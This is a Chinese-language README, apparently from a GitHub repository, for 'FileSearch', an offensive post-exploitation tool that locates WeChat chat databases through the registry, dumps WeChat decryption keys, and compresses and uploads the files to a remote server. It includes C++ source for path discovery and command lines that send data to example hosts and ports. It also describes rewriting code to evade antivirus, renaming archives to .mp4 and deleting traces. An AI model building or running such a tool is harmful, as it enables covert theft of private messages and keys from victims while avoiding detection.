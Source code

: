 # FileSearch

## 更新
### v1.3

1、排除c盘符的查找指定类型文件，避免大量缓存文件，加了个参数在c:\\users目录下查找

2、运行成功后删除掉生成出来的文件夹以及压缩包，文件后缀修改成了mp4

3、(碰到vx用户自设的保存路径，需要加个指定路径去dump)

![](https://images.zsxq.com/Fr7-9bEGX922u_WCD00vgKzoQkvE?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1672502399&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:g2IPF0-87rABGDbCjicVM8bm79g=)

```
[+] FileUpload.exe dumpkey
[+] FileUpload.exe send 127.0.0.1 8888
[+] FileUpload.exe send 127.0.0.1 8888 vxpath
[+] FileUpload.exe upload path 127.0.0.1 8888
[+] FileUpload.exe all 127.0.0.1 8888
[+] FileUpload.exe user 127.0.0.1 8888
```



### v1.2(暂不开源)
实现效果：
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665471090145-08f5b557-680f-4c8c-8fce-9574d581f81d.png)


实战中发现全盘查找微信db在c2中非常拉跨，查找等待时间较长，且盘符越多越慢

1、直接读取注册表的键值，wxid关键字匹配拼接路径


```
void getPath(char *dbpath)
{
	char cmd_command[256] = { 0 };
	char regname[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders";
	HKEY hKey;
	DWORD dwType = REG_BINARY;
	REGSAM mode = KEY_READ;
	DWORD length = 256;
	int ret = RegOpenKey(HKEY_CURRENT_USER, regname, &hKey);

	ret = RegQueryValueEx(hKey, "Personal", 0, &dwType, (LPBYTE)dbpath, &length);
	strcat(dbpath, "\\WeChat Files");
	//cout << dbpath << endl;

	if (ret == 0) {
		RegCloseKey(hKey);
	}
	else {
		printf("failed to open regedit.%d\n", ret);
	}
}

```

```
void getFileNames(string path, vector<string>& files)
{
	intptr_t hFile = 0;
	//文件信息
	struct _finddata_t fileinfo;
	string p;
	string::size_type idx;

	if ((hFile = _findfirst(p.assign(path).append("\\*").c_str(), &fileinfo)) != -1)
	{
		do
		{
			//如果是目录,匹配文件夹
			if ((fileinfo.attrib & _A_SUBDIR))
			{
				if (strstr(fileinfo.name, "wxid") != NULL)
					files.push_back(p.assign(path).append("\\").append(fileinfo.name));
			}

		} while (_findnext(hFile, &fileinfo) == 0);
		_findclose(hFile);
	}
}

```
2、传输改成socket协议，支持大文件上传，效率很快，需要启动个Server socket
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665465880719-3ec78718-3e6e-4ac8-87a1-d2751bfdaabf.png)

3、参考https://github.com/Ormicron/Sharp-dumpkey 

远程拉取基址，考虑到免杀性改成了C++代码，
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665469015290-f07178fb-95a6-4d35-9161-bbf2d4a7da13.png)

```
[+] FileUpload.exe dumpkey
[+] FileUpload.exe send 127.0.0.1 8888
[+] FileUpload.exe upload path 127.0.0.1 8888
```

### v1.1
服务端：python2 http_put.py 80 path 

（win10自带curl.exe，其他系统可以上传一个或者引用socket库）

1、新增全盘查找微信聊天记录db文件并压缩上传到指定服务器

2、压缩本地文件并上传到指定服务器

3、指定盘查找指定文件后缀并输出
```
[+] eg: Filesearch default baidu.com
[+] eg: Filesearch upload C:\MSG0.db baidu.com
[+] eg: Filesearch search C:\ docx

```
## v1.0

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```

![](https://cdn.nlark.com/yuque/0/2020/png/262397/1598583458455-d71cecb3-ef4e-49de-b33e-fe81c55c012b.png)
